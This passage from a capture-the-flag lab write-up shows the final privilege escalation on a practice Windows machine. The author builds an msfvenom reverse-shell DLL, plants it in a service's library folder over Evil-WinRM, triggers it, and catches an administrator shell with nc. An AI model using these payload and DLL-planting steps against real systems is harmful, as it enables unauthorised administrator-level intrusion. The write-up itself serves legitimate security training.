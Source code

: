 I haven't seen any AV running here, so the simplest idea is to generate
a DLL payload using `msfvenom` from Metasploit.



    oxdf@hacky$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f dll -o externalupload.dll -a x64 --platform windows
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of dll file: 9216 bytes
    Saved as: externalupload.dll



I'm using an unstaged payload so I can catch it in `nc`. If I had used
`windows/x64/shell/reverse/tcp`, that would create one I had to catch in
Metasploit.

I'll upload this to the `Libraries` directory:



    *Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> upload externalupload.dll
    Info: Uploading externalupload.dll to C:\Program Files\ReportManagement\Libraries\externalupload.dll
                                                                 
    Data: 12288 bytes of 12288 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> ls

        Directory: C:\Program Files\ReportManagement\Libraries

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----          3/8/2024   9:19 AM           9216 externalupload.dll



#### Trigger

Now I'll connect to the service over my Chisel tunnel and trigger it:



    oxdf@hacky$ rlwrap nc localhost 10000
    Reports Management administrative console. Type "help" to view available commands.
    ‌upload 0xdf
    Attempting to upload to external source.



It hangs, and there's a shell as administrator:



    oxdf@hacky$ rlwrap -cAr nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.238 49268
    Microsoft Windows [Version 10.0.19045.3570]
    (c) Microsoft Corporation. All rights reserved.

    C:\Program Files\ReportManagement> whoami
    appsanity\administrator



And `root.txt`:



    C:\Users\Administrator\Desktop> type root.txt
    78eae46d************************







